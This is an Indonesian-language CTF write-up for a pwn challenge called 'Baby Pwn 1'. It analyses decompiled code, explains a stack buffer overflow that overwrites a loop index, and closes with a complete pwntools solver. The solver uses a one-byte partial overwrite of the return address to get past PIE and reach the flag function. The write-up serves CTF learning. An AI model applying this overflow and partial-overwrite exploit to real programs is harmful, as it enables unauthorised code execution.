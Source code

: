 # PWN
## Baby Pwn 1
`writer: dimas`
### Alat
- gdb + gef
- pwntools
- checksec
- ida64

### Recon
Pada soal kita diberikan source code dan juga binary. Pertama-tama kita coba untuk memeriksa security dari binary tersebut menggunakan checksec:

![[Pasted image 20221231052436.png]]

Bisa dilihat pada gambar diatas bahwa `Stack canary` di disable. Jadi kita bisa membuffer overflow program tanpa perlu kawatir dengan stack canary.

Setelah itu kita akan mencoba untuk mendisassamble binary teserbut menggunakan ida64. Di ida64 kita menemukan beberapa fungsi penting yaitu:

- Yang pertama ada fungsi flag yang berfungsi untuk membaca flag.

```cpp
__int64 flag(void)
{
  __int64 v0; // rax
  char v2[536]; // [rsp+0h] [rbp-220h] BYREF

  std::basic_ifstream<char,std::char_traits<char>>::basic_ifstream(v2, "flag.txt", 8LL);
  if ( (unsigned __int8)std::basic_ifstream<char,std::char_traits<char>>::is_open(v2) )
  {
    v0 = std::basic_ifstream<char,std::char_traits<char>>::rdbuf(v2);
    std::ostream::operator<<(&std::cout, v0);
  }
  std::basic_ifstream<char,std::char_traits<char>>::close(v2);
  putchar(10);
  return std::basic_ifstream<char,std::char_traits<char>>::~basic_ifstream(v2);
}
```

- Yang kedua ada fungsi vuln dimana vulnerability buffer overflow berada.
```cpp
int vuln(void)
{
  int result; // eax
  char v1[104]; // [rsp+0h] [rbp-70h]
  int v2; // [rsp+68h] [rbp-8h]
  int v3; // [rsp+6Ch] [rbp-4h]

  Setup();
  v3 = 0;
  logo();
  puts("Hello! welcome to TCP1P!");
  puts("What is your name?");
  do
  {
    result = getchar();
    v2 = result;
    if ( result == 10 )
      break;
    result = v3;
    v1[v3++] = v2;
  }
  while ( v3 != 121 );
  return result;
}
```

Jadi buffer overflow berada di dalam loop `do while` dimana `do while`  menerima input lebih banyak dari variable `char v1[104]` sehingga mengakibatkan buffer overflow.

Buffer overflow ini bisa mempengaruhi variable v2 dan v3 yang berada di bawahnya. Karna variable `v3` ini berfungsi untuk mengatur index pada variable `v1` kita dapat merubah variable `v3` sehingga nanti kita bisa membypass restriksi ini `while ( v3 != 121 );` dimana jika kita merubah variable `v3` menjadi lebih besar dari `121` maka kondisi tidak akan pernah terpenuhi dalam loop, sehingga kita bisa mendapatkan infinity loop dan dari situ kita bisa membuat buffer overflow ke return address untuk mengontrol return address tersebut.

### Eksploitasi
Pertama yang harus kita lakukan adalah menentukkan padding agar kita dapat meng-buffer overflow variable `v3`. Kita akan cek  lagi pseudocde pada vungsi `vuln` di bagian deklarasi variable.

```cpp
  int result; // eax
  char v1[104]; // [rsp+0h] [rbp-70h]
  int v2; // [rsp+68h] [rbp-8h]
  int v3; // [rsp+6Ch] [rbp-4h]
```

Jadi untuk menemukan padding yang pas kita perlu menghitung dari variable `char v1[104]`. Variable ini memiliki buffer sebanyak 104 byte dan setelah itu ada variable `v2` sebanyak 4 byte (kita bisa tau karna [type int](https://www.geeksforgeeks.org/data-types-in-c/) menggunakan 4 byte). Jadi dari situ kita bisa mendapatkan padding sebanyak 108 byte untuk mencapai variable `v3`:

```
v1[104] + v2[4] = 108
```

Karna pada security di binary ada `pie enable` address dari setiap fungsi akan di randomize, Kita hanya bisa merubah address terakhir dari return address untuk ke ke fungsi yang valid.

![[Pasted image 20221231052436.png]]

Karna yang paling dekat dengan fungsi vuln adalah fungsi main, dimana fungsi main ini ada call flag didalamnya, maka kita dapat merubah byte terakhir di return adress dengan byte dari fungsi main yang ada call flag tersebut.
```cpp
int main()  
{  
   bool showflag = false;
   vuln();  
   if (showflag){  
       flag();  <- kita ingin locat ke address ini
   }  
}
```

berikut solver yang saya gunakan untuk solve challenge tersebut.
```python
from pwn import *
import sys

BINARY = "chall"
context.binary = exe = ELF(BINARY, checksec=False)
context.terminal = "konsole -e".split()
context.log_level = "INFO"
context.bits = 64
context.arch = "amd64"


def init():
    if args.RMT:
        p = remote(sys.argv[1], sys.argv[2])
    else:
        p = process()
    return Exploit(p), p


class Exploit:
    def __init__(self, p: process):
        self.p = p

    def debug(self, script=None):
        if not args.RMT:
            if script:
                attach(self.p, script)
            else:
                attach(self.p)

x, p = init()

x.debug((
    "break *vuln+87\nc\n" # while ( v3 != 121 )
    "c\n"*56 # continue sampai v3 ter overwrite
    # "break *vuln+98\nc\n" # break point return
))

padding = b"A"*108
payload = padding
payload += p8(142) # index byte terakhir dari return address
payload += p8((exe.sym['main']+23) & 0xff) # byte terakhir dari fungsi main+23 = call flag

p.sendline(payload)

p.interactive()
```